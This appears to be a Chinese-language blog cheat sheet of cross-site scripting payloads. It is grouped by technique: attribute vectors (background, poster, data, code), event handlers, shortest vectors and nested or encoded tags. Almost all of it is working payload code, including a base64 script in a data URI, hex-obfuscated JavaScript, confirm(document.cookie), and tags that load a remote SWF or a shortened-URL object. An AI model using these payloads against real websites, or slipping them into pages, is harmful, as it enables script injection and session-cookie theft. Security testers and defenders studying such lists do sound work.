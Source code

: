 [code]

    <table background=javascript:alert(1)></table> // Works on Opera 10.5 and IE6
[/code]

**poster属性：**

[code]

    <video poster=javascript:alert(1)//></video> // Works Upto Opera 10.5
[/code]

**data属性：**

[code]

    <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">
    <object/data=//goo.gl/nlX0P?
[/code]

**code属性：**

[code]

    <applet code="javascript:confirm(document.cookie);"> // Firefox Only
    <embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
[/code]



**事件处理：**

![复制代码](https://common.cnblogs.com/images/copycode.gif)

[code]

     <svg/onload=prompt(1);>
     <marquee/onstart=confirm(2)>/
     <body onload=prompt(1);>
     <select autofocus onfocus=alert(1)>
     <textarea autofocus onfocus=alert(1)>
     <keygen autofocus onfocus=alert(1)>
     <video><source onerror="javascript:alert(1)">
[/code]

![复制代码](https://common.cnblogs.com/images/copycode.gif)

**最短向量：**

[code]

    <q/oncut=open()>
    <q/oncut=alert(1)> // Useful in case of payload restrictions.
[/code]

**嵌套：**

[code]

    <marquee<marquee/onstart=confirm(2)>/onstart=confirm(1)>
    <body language=vbsonload=alert-1 // Works with IE8
    <command onmouseover ="\x6A\x61\x76\x61\x53\x43\x52\x49\x50\x54\x26\x63\x6F\x6C\x6F\x6E\x3B\x63\x6F\x6E\x66\x69\x72\x6D\x26\x6C\x70\x61\x72\x3B\x31\x26\x72\x70\x61\x72\x3B">Save</command> // Works with IE8
[/code]
